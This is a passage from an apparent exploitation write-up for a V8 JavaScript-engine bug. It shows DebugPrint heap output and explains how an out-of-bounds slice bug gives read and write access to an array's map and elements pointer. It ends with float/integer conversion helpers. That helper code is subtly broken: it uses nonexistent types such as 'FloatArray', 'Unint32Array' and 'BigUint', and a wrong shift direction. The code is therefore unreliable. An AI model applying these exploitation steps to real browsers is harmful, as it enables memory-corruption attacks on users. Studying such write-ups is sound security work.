```asm
 - enum length: invalid
 - back pointer: 0x1995082438d5 <Map(HOLEY_SMI_ELEMENTS)>
 - prototype_validity cell: 0x199508182445 <Cell value= 1>
 - instance descriptors #1: 0x19950820abd9 <DescriptorArray[1]>
 - transitions #1: 0x19950820ac25 <TransitionArray[4]>Transition array #1:
     0x199508044f5d <Symbol: (elements_transition_symbol)>: (transition to HOLEY_DOUBLE_ELEMENTS) -> 0x199508243925 <Map(HOLEY_DOUBLE_ELEMENTS)>

 - prototype: 0x19950820a555 <JSArray[0]>
 - constructor: 0x19950820a429 <JSFunction Array (sfi = 0x19950818b399)>
 - dependent code: 0x1995080421e1 <Other heap object (WEAK_FIXED_ARRAY_TYPE)>
 - construction counter: 0

```

Using `DebugPrint(a)` we got a lot of information about the variable `a`, better to break it down and understand the output one by one. First off, `DebugPrint` tells us that `JSArray` is located at the `0x199508084a31` and the map of the `JSArray` is located at the `0x1995082438fd` and the address `0x199508084a11` is pointing to the elements stored. The Debug Output is enough to understand what is here if you've done binary exploitation.

From the vulnerability, we know that we can access `start + 2` elements of the JSArray, which if you go through the above output would be `JSArrayMap` and other would be `FixedDoubleArray`. Now, we know that we can access the map and the pointer to the elements of the `JSArray`, what do we do now?


It is true that we read by the slice method but we also need a write primitve, if you remember from the patch file, the length of the `JSArray` is being extended during the inital call of the `HandleFastSlice`, which means we can change the content of the `JSArrayMap` and the `FixedDoubleArray` which is a pointer to the array's elements. Now, we know what we can do with the vulnerability, let's move on.

Before we move on, the address will be represented in the floating point value but for debugging we need the 64 bit representation of the floating value and vice versa, we can use JS to make us some utility function to help out with this.

```js
var buf = new ArrayBuffer(8);
var f64_buf = new FloatArray(buf);
var u64_buf = new Unint32Array(buf);

function ftoi(val, size) {

   f64_buf[0] = val;

   if(size == 32) {
      return BigInt(u64_buf[0]);
   } else if(size == 64) {
      return BigInt(u64_buf[0]) + BigUint(u64_buf[1]  << 32n);
      
   }
}

function itof(val, size) {
   if(size == 32) {
      u64_buf[0] = Number(val & 0xffffffffn);
   } else if(size == 64) {
      u64_buf[0] = Number(val & 0xffffffffn)
      u64_buf[1] = Number(val << 32n);
   }
   return f64_buf[0];
}
```
